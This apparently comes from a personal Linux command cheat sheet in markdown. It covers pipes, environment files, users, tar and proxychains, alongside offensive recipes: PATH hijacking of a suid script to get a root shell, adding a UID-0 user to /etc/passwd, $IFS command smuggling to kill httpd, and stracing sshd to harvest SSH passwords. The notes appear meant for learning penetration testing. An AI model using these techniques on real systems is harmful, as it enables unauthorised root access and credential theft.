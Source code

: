 # Linux Command Line Commands

* What does the **linux pipe symbol** | do?
  If you're comfortable with output and input redirection, the explanation is really quite easy.
```
Command1 | Command2
```
  does the same as
```
Command1 > tempfile
Command2 < tempfile
```

  but without tempfile. The output of Command1 is directly connected to the input of Command2 and the transfer happens in-memory.


## Environment Variables

```
cat /etc/profile
cat /etc/bashrc
cat ~/.bash_profile
cat ~/.bashrc
cat ~/.bash_logout
env
set
```

### Exploiting Bad Path Configuration

* Exploiting users with ‘.’ in their PATH

* Users add '.' in their path to avoid having to type `./some_command`.

* When this happens a malicious file can be created in a folder, user execute it rather than a command they wanted to.

* For instance:
  - The current user has "." in the PATH.
  - A custom script is found that has `suid` permission set (can execute as root).
  - Custom script calls `ps` as part of execution, without specifying the full path.
  - **Exploit** by creating an executable called `ps` in the current folder. This adds `ps` to the PATH.

  ```sh
  echo "/bin/bash" > ps
  chmod 777 ps
  #OR
  ln -s /bin/sh ps

  ./that_custom_script.sh
  whoami
  ```


---
## General

* Commands can be split with a semicolon
```
$ echo hello; whoami
hello
username
```

* To make locate work
```
# updatedb
```

* get my external ip address
  ```
  $ dig +short myip.opendns.com @resolver1.opendns.com
  $ curl www.ipmango.com/api/myip
  ```

* Set Prompt
```
PS1=[\\W]\#
echo $PS1
```
  https://www.cyberciti.biz/tips/howto-linux-unix-bash-shell-setup-prompt.html  
  https://www.cyberciti.biz/faq/bash-shell-change-the-color-of-my-shell-prompt-under-linux-or-unix/  

* Base64 Decode
```
$ base64 -d cABhAHMAcwB3AG8AcgBkAFAAYQBzAHMAdwBvAHIAZAA=
```


*  when a space cannot be added in bash command, use:
  `$IFS`, which is a special way of telling bash to “use the internal field separator”, which is a long-winded way of writing a space.
```
# ls;killall$IFS'httpd'
```

* nameservers are set in `/etc/resolv.conf`

---
## Users and passwords

* Add a user (only root may add a user or group) -> /usr/sbin/
```
# adduser user1
```

* Set the password for an existing user
```
# passwd <username>
Enter new UNIX password:
Retype new UNIX password:
passwd: password updated successfully
```

* Create a password to manually enter in to `/etc/passwd`
```
#  openssl passwd -1 -salt <username> <password>
```

* `etc/passwd` Is a human-readable text file which stores information of user account.
    If you can write to this file you can add a user. NOTE need to add to the group file as well!!
    1. Username
    2. Encrypted Password / None  
      `x` = password stored in /etc/shadow  
      `*` = no password set  
      Anything else is an encrypted password. This password can be created as follows:
      ```
      $ openssl passwd -1 -salt <username> <password>

      $ openssl passwd -1 -salt ook thisismypassword
      $1$ook$52gsEQHLblJ2CoBtCIaaa/
      ```
    3. User Id
    4. Group Id
    5. Gecos Field
    6. Home Directory
    7. Command / Shell

    ```
    firstuser:x:1000:1000:,,,:/home/first:/bin/bash
    user1:*:1001:1001:,,,/home/user1:/bin/bash
    ook:$1$ook$52gsEQHLblJ2CoBtCIaaa/:0:0:,,,/home/ook:/bin/bash
    ```
      - Now we can set the passwd for the user with `passwd` (potentially).

* `etc/group` Is a human-readable text file which stores group information as well as which user belongs to which group.
  ```
  $ vim /etc/group

  # Add the newly created users' groups
  user1:*:1001
  ```

* `etc/shadow` Is a file that contains encrypted password information of the accounts

* For information on `su` and `sudo` see [sudo and su](sudo.md)

* Retrieve all ssh users and passwords (ssh host):
```
$ sudo strace -f -e “read” -p <pid_of_sshd> 2>log
```



---



## Bash Scripting

See also [Bash Guide For Beginners](http://www.tldp.org/LDP/Bash-Beginners-Guide/html/index.html)


* for loop with command
```
# for url in $(cat list.txt); do host $url; done
```
Or not inline:
```
for in in *.png
do
convert $i $i.jpg
done
```

---
## Other tools

* To list all the commands available
```
$ compgen -c
```

### Find

* To delete all empty files in a folder
```
find . -size 0 -delete
```

### Grep

See [Grep](../tools/grep.md)

### Tar
http://osxdaily.com/2012/04/05/create-tar-gzip/  

* To compress
```
tar -cvzf tarballname.tar.gz itemtocompress
```

* To decompress
```
gunzip filename.tar.gz
tar -xvf filename.tar
```

### Proxychains
proxychains - a tool that forces any TCP connection made by any given application to follow through proxy like TOR or any other SOCKS4, SOCKS5 or HTTP(S) proxy. Supported auth-types: "user/pass" for SOCKS4/5, "basic" for HTTP.  
https://github.com/haad/proxychains  

* edit `/etc/proxychains.conf`
* usage
```
$ proxychains telnet host.com
$ proxychains -f /etc/proxychains-other.conf targethost2.com

```
